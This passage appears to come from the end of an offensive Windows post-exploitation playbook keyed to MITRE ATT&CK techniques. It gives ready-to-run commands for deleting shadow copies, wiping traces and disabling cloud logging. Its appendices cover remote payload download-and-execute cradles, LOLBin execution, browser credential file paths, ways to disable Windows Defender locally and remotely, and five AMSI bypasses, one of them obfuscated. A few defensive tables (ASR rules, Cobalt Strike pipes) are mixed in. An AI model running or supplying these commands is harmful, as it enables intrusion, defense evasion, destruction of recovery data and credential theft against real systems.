[[T1070.005](https://attack.mitre.org/techniques/T1070/005/) - Network Share Connection Removal]

```
net use * /delete /y
```

## Step 4: Delete Shadow Copies (Anti-Recovery)
[[T1490](https://attack.mitre.org/techniques/T1490/) - Inhibit System Recovery]

```
wmic shadowcopy delete
vssadmin delete shadows /all /quiet
```

```powershell
Get-WmiObject Win32_Shadowcopy | Remove-WmiObject
```

## Step 5: Clean Up Registry Changes

If you used UAC bypass methods:
```
reg delete HKCU\Software\Classes\ms-settings /f
reg delete HKCU\Software\Classes\mscfile /f
reg delete HKCU\Software\Classes\Folder /f
```

## Step 6: Remove Dropped Files

```
del /f /q C:\Users\Public\*.exe
del /f /q C:\Users\Public\*.vbs
del /f /q C:\Users\Public\*.hta
del /f /q C:\Users\Public\*.txt
```

## Step 7: Disable Cloud Logging
[[T1562.008](https://attack.mitre.org/techniques/T1562/008/) - Impair Defenses: Disable Cloud Logs]

```powershell
Set-AzDiagnosticSetting -ResourceId <resource_id> -Enabled $false
```

```
az monitor diagnostic-settings update --name <setting> --resource <resource_id> --set properties.logs[0].enabled=false
```

---

# Part 3: Reference

---

# Appendix A: LOLBins Quick Reference
[[T1218](https://attack.mitre.org/techniques/T1218/) - System Binary Proxy Execution]

Living Off the Land Binaries - native Windows executables that can be used for execution when traditional methods are blocked.

## Execution LOLBins

| Binary | Usage | Notes |
|--------|-------|-------|
| `cmstp.exe` | `cmstp.exe /ni /s mal.inf` | INF-based execution |
| `cscript.exe` | `cscript.exe //E:JScript script.js` | JScript execution |
| `explorer.exe` | `explorer.exe mal.exe` | Launch executables |
| `forfiles.exe` | `forfiles /p c:\windows\system32 /m calc.exe /c "mal.exe"` | Indirect execution |
| `mshta.exe` | `mshta.exe vbscript:Execute("...")` | VBS/JS execution |
| `msiexec.exe` | `msiexec.exe /q /i http://x.com/mal.msi` | Remote MSI |
| `netsh.exe` | `netsh.exe add helper mal.dll` | DLL loading |
| `odbcconf.exe` | `odbcconf.exe /a {REGSVR mal.dll}` | DLL loading |
| `pcalua.exe` | `pcalua.exe -a mal.exe` | Launch any exe |
| `regsvr32.exe` | `regsvr32 /s /n /u /i:http://x.com/x.sct scrobj.dll` | Remote SCT |
| `rundll32.exe` | `rundll32.exe javascript:"..."` | JS execution |
| `wscript.exe` | `wscript.exe mal.vbs` | VBScript execution |
| `installutil.exe` | `installutil.exe /U mal.dll` | .NET execution |
| `regasm.exe` | `regasm.exe /U mal.dll` | .NET execution |
| `msbuild.exe` | `msbuild.exe mal.xml` | XML-based execution |

## Download LOLBins

| Binary | Usage |
|--------|-------|
| `bitsadmin.exe` | `bitsadmin /transfer job http://x.com/file.exe c:\file.exe` |
| `certutil.exe` | `certutil -urlcache -f http://x.com/file.exe file.exe` |
| `curl.exe` | `curl http://x.com/file.exe -o file.exe` |

## Recon LOLBins

| Binary | Usage |
|--------|-------|
| `dsquery.exe` | `dsquery user -name *` |
| `nltest.exe` | `nltest /dsgetdc:domain` |
| `quser.exe` | `quser` |
| `tasklist.exe` | `tasklist /svc` |
| `whoami.exe` | `whoami /groups` |

---

# Appendix B: ASR Rules Complete Reference

| GUID | Rule Name | Block Focus |
|------|-----------|-------------|
| `BE9BA2D9-53EA-4CDC-84E5-9B1EEEE46550` | Block executable content from email | Email attachments |
| `D4F940AB-401B-4EFC-AADC-AD5F3C50688A` | Block Office child processes | Office → cmd/ps |
| `3B576869-A4EC-4529-8536-B80A7769E899` | Block Office executable creation | Writing .exe |
| `75668C1F-73B5-4CF0-BB93-3ECF5CB7CC84` | Block Office code injection | Process injection |
| `D3E037E1-3EB8-44C8-A917-57927947596D` | Block JS/VBS launching executables | Script execution |
| `5BEB7EFE-FD9A-4556-801D-275E5FFC04CC` | Block obfuscated scripts | Encoded scripts |
| `92E97FA1-2EDF-4476-BDD6-9DD0B4DDDC7B` | Block Win32 API from Office | API calls |
| `01443614-CD74-433A-B99E-2ECDC07BFC25` | Block by prevalence/age | Uncommon files |
| `9E6C4E1F-7D60-472F-BA1A-A39EF669E4B2` | Block LSASS credential theft | LSASS access |
| `D1E49AAC-8F56-4280-B9BA-993A6D77406C` | Block PSExec/WMI processes | Remote exec |
| `B2B3F03D-6A65-4F7B-A9C7-1C7EF74A9BA4` | Block USB unsigned processes | USB execution |
| `26190899-1602-49E8-8B27-EB1D0A1CE869` | Block Outlook child processes | Email client |
| `7674BA52-37EB-4A4F-A9A1-F0F9A1619A2C` | Block Adobe Reader child processes | PDF viewer |
| `E6DB77E5-3DF2-4CF1-B95A-636979351E5B` | Block WMI persistence | WMI events |
| `56A863A9-875E-4185-98A7-B882C64B5CE5` | Block vulnerable drivers | Kernel drivers |
| `C1DB55AB-C21A-4637-BB3F-A12568109D35` | Block ransomware behavior | Encryption |
| `A8F5898E-1DC8-49A9-9878-85004B8A61E6` | Block webshell creation | Web servers |

---

# Appendix C: Browser Credential Locations

## Google Chrome
```
%LOCALAPPDATA%\Google\Chrome\User Data\*\Bookmarks
%LOCALAPPDATA%\Google\Chrome\User Data\*\Cookies
%LOCALAPPDATA%\Google\Chrome\User Data\*\Login Data
%LOCALAPPDATA%\Google\Chrome\User Data\*\Web Data
%LOCALAPPDATA%\Google\Chrome\User Data\Local State
```

## Mozilla Firefox
```
%APPDATA%\Mozilla\Firefox\Profiles\*\cookies.sqlite
%APPDATA%\Mozilla\Firefox\Profiles\*\key3.db
%APPDATA%\Mozilla\Firefox\Profiles\*\key4.db
%APPDATA%\Mozilla\Firefox\Profiles\*\logins.json
%APPDATA%\Mozilla\Firefox\Profiles\*\places.sqlite
```

## Microsoft Edge
```
%LOCALAPPDATA%\Microsoft\Edge\User Data\*\Bookmarks
%LOCALAPPDATA%\Microsoft\Edge\User Data\*\Cookies
%LOCALAPPDATA%\Microsoft\Edge\User Data\*\Login Data
%LOCALAPPDATA%\Microsoft\Edge\User Data\*\Web Data
%LOCALAPPDATA%\Microsoft\Edge\User Data\Local State
```

## Opera
```
%APPDATA%\Opera Software\Opera Stable\User Data\*\Login Data
%APPDATA%\Opera Software\Opera Stable\User Data\*\Cookies
%APPDATA%\Opera Software\Opera Stable\User Data\Local State
```

---

# Appendix D: Cobalt Strike Named Pipes

Known named pipes associated with Cobalt Strike that defenders should monitor:

```
\postex_*
\postex_ssh_*
\status_*
\msagent_*
\MSSE-*
\*-server
\wkssvc*
\DserNamePipe*
\mojo.*
\spoolss_*
\srvsvc_*
\win_svc*
\ntsvcs*
\winsock
\UIA_PIPE
```

---

# Appendix E: Disabling Windows Defender
[[T1562.001](https://attack.mitre.org/techniques/T1562/001/) - Impair Defenses: Disable or Modify Tools]

**PowerShell (requires elevation):**
```powershell
Set-MpPreference -DisableRealtimeMonitoring $True
Set-MpPreference -DisableArchiveScanning $true
Set-MpPreference -DisableBehaviorMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableIntrusionPreventionSystem $true
Set-MpPreference -DisableScanningNetworkFiles $true
```

**Add exclusions:**
```powershell
Add-MpPreference -ExclusionPath "C:\path\to\exclude"
```

**Registry (requires elevation):**
```
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d 0x1 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /t REG_DWORD /d 0x1 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableIOAVProtection" /t REG_DWORD /d 0x1 /f
```

**Delete Defender scheduled tasks:**
```
schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Scheduled Scan" /f
schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Cache Maintenance" /f
schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Cleanup" /f
schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Verification" /f
```

**Remote disable via WMI:**
```
wmic /node:"<IP_Address>" process call create "powershell Set-MpPreference -DisableRealtimeMonitoring $true"
```

---

# Appendix F: File Transfer Methods
[[T1105](https://attack.mitre.org/techniques/T1105/) - Ingress Tool Transfer]

## PowerShell Methods
```powershell
# WebClient
(New-Object Net.WebClient).DownloadFile('http://x.com/file.exe','C:\file.exe')

# Download and execute in memory
IEX ((New-Object Net.WebClient).downloadstring('http://x.com/script.ps1'))

# Invoke-WebRequest
Invoke-WebRequest -Uri "http://x.com/file.exe" -OutFile c:\file.exe
iwr -Uri "http://x.com/file.exe" -OutFile c:\file.exe -UseBasicParsing
```

## certutil
```
certutil -urlcache -split -f http://x.com/file.exe C:\file.exe
```

## BITS
```
bitsadmin /transfer job http://x.com/file.exe C:\file.exe
```

```powershell
Start-BitsTransfer -Source http://x.com/file.exe -Destination C:\file.exe
```

## VBScript
```vbs
Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
objHTTP.Open "GET", "http://example.com/file.exe", False
objHTTP.Send

Set objStream = CreateObject("ADODB.Stream")
objStream.Open
objStream.Type = 1
objStream.Write objHTTP.ResponseBody
objStream.SaveToFile "C:\Users\Public\file.exe", 2
objStream.Close
```

---

# Appendix G: AMSI Bypass Techniques

AMSI (Antimalware Scan Interface) scans scripts before execution. When PowerShell works but scripts get caught, use these bypasses:

## Method 1: amsiInitFailed Patch
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

## Method 2: Obfuscated Version
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Failed") {$e.SetValue($null,$true)}}
```

## Method 3: Force Error
```powershell
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null)
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)
```

## Method 4: String Concatenation
```powershell
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$field.SetValue($null,$true)
```

## Method 5: Using Reflection
```powershell
[Runtime.InteropServices.Marshal]::WriteInt32([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext',[Reflection.BindingFlags]'NonPublic,Static').GetValue($null),0x41414141)
```

---

**Document Version:** 2.0
**MITRE ATT&CK Framework Reference:** https://attack.mitre.org/
